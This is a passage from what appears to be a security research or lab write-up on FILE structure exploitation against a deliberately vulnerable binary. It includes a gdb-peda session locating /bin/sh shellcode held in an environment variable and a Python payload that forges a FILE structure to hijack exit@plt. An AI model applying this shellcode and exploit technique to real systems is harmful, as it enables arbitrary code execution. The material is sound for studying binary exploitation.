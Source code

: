 To get the address of `SHELLCODE` I used `gdb` for now:

```
$ ./invoke.sh -d -e SHELLCODE=$(python -c 'print "\x31\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0@\xcd\x80"') ./vul$
 abc $(python exploit.py)
Reading symbols from /home/student/Research/FILE_struct_exp/vuln...done.
(gdb) source /opt/peda/peda.py
gdb-peda$ b *main+233
Breakpoint 1 at 0x804865f: file vuln.c, line 27.
gdb-peda$ unset e
environment   exec-wrapper
gdb-peda$ unset environment COLUMNS
gdb-peda$ unset environment LINES
gdb-peda$ r
[-------------------------------------code-------------------------------------]
   0x8048655 <main+223>:        lea    eax,[ebx-0x122d]
   0x804865b <main+229>:        push   eax
   0x804865c <main+230>:        push   DWORD PTR [ebp-0x1c]
=> 0x804865f <main+233>:        call   0x8048420 <fprintf@plt>
   0x8048664 <main+238>:        add    esp,0x10
   0x8048667 <main+241>:        sub    esp,0xc
   0x804866a <main+244>:        push   0x0
   0x804866c <main+246>:        call   0x80483f0 <exit@plt>
Guessed arguments:
arg[0]: 0xffffce1c --> 0x0
arg[1]: 0x8048713 ("%s : %s\n")
arg[2]: 0xffffde61 --> 0x636261 ('abc')
arg[3]: 0xffffdb78 ("FOOD")

Breakpoint 1, 0x0804865f in main (argc=0x3, argv=0xffffdd44) at vuln.c:27
27        fprintf(fp,"%s : %s\n",argv[1],buf);
gdb-peda$ find SHELLCODE
Searching for 'SHELLCODE' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xffffdfa5 ("SHELLCODE=1\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200")
gdb-peda$ p/x 0xffffdb78+4
$2 = 0xffffdb7c
gdb-peda$
```

The address of the shellcode is at `0xffffdfaf` (0xffffdfa5 + 10) but the address of my fake file structure also 
changed to `0xffffdb7c`. As a result, a slight modification to the exploit script is needed:

```python
exit_plt = 0x8049958
env_addr = 0xffffd991
shellcode_addr = 0xffffdfaf
struct_chain = 0xf7faece0
struct_lock = 0x804a204
struct_vtable = 0xf7fac860

payload_fd = forge_FILE_struct(_IO_buf_base = exit_plt-3, \
        _IO_buf_end = exit_plt+4, \
        chain =struct_chain, \
        _lock = struct_lock, \
        vtable = struct_vtable)

payload = p32(shellcode_addr)
payload += payload_fd
payload += '\x00'*(260 - len(payload))
payload += p32(0xffffdb7c) # forged FILE structure address

```

[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/